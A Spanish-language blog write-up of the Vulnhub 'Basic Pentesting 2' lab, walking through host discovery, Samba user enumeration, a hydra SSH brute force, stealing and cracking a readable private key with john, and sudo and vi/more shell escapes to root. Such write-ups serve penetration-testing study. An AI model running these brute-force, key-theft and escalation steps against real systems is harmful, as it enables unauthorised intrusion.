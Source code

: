 ```yaml
---
title: "Vulnhub #0: CSEC Basic Pentesting 2"
description: Pentesting a máquina CSEC 2 en Vulnhub
date: 2025-05-11
scheduled: 2025-05-11
tags:
  - hacking
layout: layouts/post.njk
---
```


Puedes descargar la máquina vulnerable desde [vulnhub](https://www.vulnhub.com/entry/basic-pentesting-2,241/)

## Descubrimiento de hosts

Tras iniciar la maquina escaneamos con `sudo netdiscover`.

Estos son las IP del lab:

```plaintext
Ubuntu(host): 192.168.0.20
Kali(VM):     192.168.0.16
Victima:      192.168.0.17
```

## Servicios
```
22/tcp  open  ssh         syn-ack OpenSSH 7.2p2 Ubuntu 4ubuntu2.4 (Ubuntu Linux; protocol 2.0)
80/tcp  open  http        syn-ack Apache httpd 2.4.18 ((Ubuntu))
139/tcp open  netbios-ssn syn-ack Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp open  netbios-ssn syn-ack Samba smbd 4.3.11-Ubuntu (workgroup: WORKGROUP)
```

Si lanzamos `nmap -sT -sV -A -vvv 192.168.0.17` y no obtenemos ninguna vulnerabilidad explotable.

Sin embargo, podemos intentar enumerar usuarios de samba con `enum4linux <ip>`
Obtenemos dos usuarios:

```plaintext
kay
jan
```

## Ataque SSH

Lanzamos hydra con rockyou.txt usando `hydra -l kay -P ./rockyou.txt ssh://192.168.0.17`

La contraseña es `armando`

Una vez dentro podemos hacer `ls -lisaR /home` para analizar las carpetas de usuarios.

Ahi podemos ver que en la carpeta .ssh del usuario kay tiene un `id_rsa` con permisos globales de lectura.

```
/home/kay/.ssh:
total 20
798691 4 drwxr-xr-x 2 kay kay 4096 Apr 23  2018 .
786930 4 drwxr-xr-x 5 kay kay 4096 Apr 23  2018 ..
798921 4 -rw-rw-r-- 1 kay kay  771 Apr 23  2018 authorized_keys
798917 4 -rw-r--r-- 1 kay kay 3326 Apr 19  2018 id_rsa
798918 4 -rw-r--r-- 1 kay kay  771 Apr 19  2018 id_rsa.pub
jan@basic2:~$ cat /home/kay/.ssh/id_rsa
```

## Usando una clave robada

Podemos copiar el archivo y usarlo para intentar entrar en la maquina con `ssh kay@ip -i clave-robada`

Whooops! Nos devuelve esto:

```plaintext
Permissions 0664 for 'id_key' are too open.
It is required that your private key files are NOT accessible by others.
This private key will be ignored.
Load key "id_key": bad permissions
```

Debemos dar permisos de lectura y escritura para usuario y grupo con `chmod 400 clave-robada`

Ahora nos pide la contraseña de la clave.

Esa contraseña está DENTRO de nuestro archivo `clave-robada`.

Convierte la clave a un formato que john entienda con `ssh2john clave-robada > clave-formato-john`

Una vez listo podemos romper la contraseña con `john clave-formato-john --wordlist=rockyou.txt`

```plaintext
beeswax          (clave-robada)     
1g 0:00:00:00 DONE (2024-09-17 06:09) 12.50g/s 1034Kp/s 1034Kc/s 1034KC/s behlat..bball40
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 
```

Si hacemos `ssh kay@ip -i clave-robada`

Nos pedirá la contraseña `beeswax` descubierta antes.

Estamos dentro!

¿Que podemos hacer ahora?

## Escalando privilegios

Podemos volver a usar `ls -lisaR /home` para listar de nuevo por si hubiera cosas que no hemos visto antes

Tenemos un `pass.bak` que podemos leer:

```plaintext
heresareallystrongpasswordthatfollowsthepasswordpolicy$$
```

Si intentamos usar `sudo -l` para ver que podemos lanzar nos pedirá una contraseña.

Podemos pasar esa contraseña y ver que podemos lanzar `sudo su`

```plaintext
[sudo] password for kay: 
Matching Defaults entries for kay on basic2:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User kay may run the following commands on basic2:
    (ALL : ALL) ALL
```

Tras lanzarlo, ya somos `root`.


### Otras formas de conseguir `root`:

#### sudo vi

```plaintext
sudo vi
Escribimos :!sh y nos devuelve una consola root
```

#### more

```plaintext
Escribimos un archivo relativamente largo y lo abrimos con `more` y tenemos algo similar a vi
Con !sh podremos abrir otra consola.
```
